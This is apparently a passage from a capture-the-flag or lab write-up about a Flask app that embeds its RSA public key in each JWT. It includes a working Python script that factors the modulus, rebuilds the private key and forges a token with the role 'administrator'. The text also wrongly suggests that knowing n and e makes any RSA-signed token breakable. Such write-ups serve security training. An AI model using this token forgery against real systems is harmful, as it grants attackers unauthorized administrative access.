 We can proceed to do some code analysis and see if we can spot additional vulnerabilities or credentials. The login method in `app.py` looks interesting. The pair of RSA keys are generated in the `config/signature.py`. The validation is done in the
`middleware/verification.py`.

```python
if user:
    payload = {
        'email': email,
        'role': user['role_id'],
        'iat': datetime.now(timezone.utc),
        'exp': datetime.now(timezone.utc) + timedelta(seconds=3600),
        'jwk':{'kty': 'RSA',"n":str(signature.n),"e":signature.e}
    }
    access_token = jwt.encode(payload, signature.key.export_key(), algorithm='RS256')

    response = make_response(jsonify(access_token=access_token), 200)
    response.set_cookie('X-AUTH-Token', access_token)
    return response
else:
    return jsonify(message="Invalid email or password"), 401
```

It uses the `signature.py` module to encode the payload into a JWT token. The payload does contain the RSA modulus n and the encryption exponent e. With knowledge of these values, we can decode any JWT token to find the original prime factors p and q and break the encryption.

Let's have a look at how we can decode our `customer` token and modify it to become `administrator`.

```python
import base64, json, jwt # pip install pyjwt
from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy

token='eyJhbGciOiJSUzI1N...<SNIP>'
payload = json.loads(base64.b64decode(token.split(".")[1] + "===").decode())

# find prime factors to get the decryption exponent (d)
n = int(payload["jwk"]["n"])
p,q = list(sympy.factorint(n).keys())
e = 65537
phi_n = (p - 1) * (q - 1)
d = pow(e, -1, phi_n)

key = RSA.construct((n, e, d, p, q))
private_key = key.export_key()

data = jwt.decode(
    token,
    private_key,
    algorithms=["RS256"],
    options={"verify_signature": False}
)

# insert admin role
data["role"] = "administrator"

# encode the new data in new token
new_token = jwt.encode(data, private_key, algorithm="RS256")
print(new_token)
```
